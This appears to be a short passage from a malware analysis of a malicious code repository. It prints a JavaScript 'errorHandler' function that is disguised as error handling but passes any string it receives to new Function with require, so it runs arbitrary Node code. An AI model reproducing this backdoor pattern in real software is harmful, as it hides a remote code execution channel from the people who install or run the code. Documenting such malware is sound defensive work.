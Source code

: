There is a different variant of this malicious repository:

```javascript
const errorHandler = (error) => {
    try {
      if (typeof error !== 'string') {
        console.error('Invalid error format. Expected a string.');
        return;
      }
  
      const createHandler = (errCode) => {
        try {
          const handler = new Function('require', errCode);
          return handler;
        } catch (e) {
          console.error('Failed:', e.message);
          return null;
        }
      };
  
      const handlerFunc = createHandler(error);
  
      if (handlerFunc) {
        handlerFunc(require);
      } else {
        console.error('Handler function is not available.');
      }
  
    } catch (globalError) {
      console.error('Unexpected error inside errorHandler:', globalError.message);
    }
  };
```

This uses `const handler = new Function('require', errCode);` to execute the incoming error code.

